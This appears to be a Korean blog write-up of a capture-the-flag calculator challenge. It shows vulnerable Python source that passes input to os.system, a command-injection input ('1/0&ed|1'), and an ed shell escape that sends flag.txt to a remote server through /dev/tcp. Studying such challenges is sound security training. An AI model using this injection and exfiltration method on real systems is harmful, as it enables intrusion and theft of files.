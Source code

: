 ```py
        script+=f'val {opers[i]}= {nums[i+1]}\n'
    script += 'print(f\'{expr}=%x\'%val)'
    exec(script)
```

```py
def raise_error(e):
    if type(e) == KeyboardInterrupt:
        print("\nif you want to quit this calculator, type 'exit'\n")
    else:
        if type(e) == EOFError:
            e = 'EOFError'
            error_msg = 'Please do not press CTRL+D'
        else:
            error_msg = f'{expr} is invalid expression!'
        tmp_err_logs = '.'+binascii.hexlify(os.urandom(8)).decode()
        cmd = f'''
            echo "*** {str(e)} ***" > {tmp_err_logs}
            echo {error_msg} >> {tmp_err_logs}
            cat {tmp_err_logs}
            rm {tmp_err_logs}
        '''
        os.system(cmd)
    return
```

exec로는 필터링으로 인해 사실 할 수 있는 게 많이 없고, 결국에는 os.system을 통해 command를 실행시켜야 한다.

그러면, 우리가 할 수 있는 건 raise를 발생시켜서 에러 로그를 저장했다가 출력해주는 곳에서 command를 실행시키는 것이 가장 합리적이다.

이는 division by zero exception을 통해 raise 시킬 수 있고, `1/0&ed|1`라는 입력을 통해 division by zero와 동시에 command injection을 발생시킬 수 있다.

그러면 ed라는 command가 실행되는데, 이는 vim과 똑같이 command를 실행시킬 수 있다.

```bash
!/bin/bash
cat flag.txt > /dev/tcp/{server}/{port}
```

그럼 위와 같은 형태로 데이터를 tcp로 server에 보내서 flag를 가져오는 command를 실행시킬 수 있다.


### 블로그 포스트 작성자의 추가적인 코멘트

파이썬의 Exception handling을 이용한 command injection 문제입니다. whitelist 에서 command injection에 주로 사용되는 `&`, `|` 문자를 허용한다는 점과, Dockerfile에서 `ed` 명령어를 설치하는 두 개의 단서를 찾는다면 쉽게 풀 수 있는 문제였습니다. 

이러한 command injection bypass 유형의 문제는 [hacktricks](https://book.hacktricks.xyz/pentesting-web/command-injection) 사이트에 잘 정리되어있으니 살펴보시는 것을 추천드립니다.


---

## safe_calculator
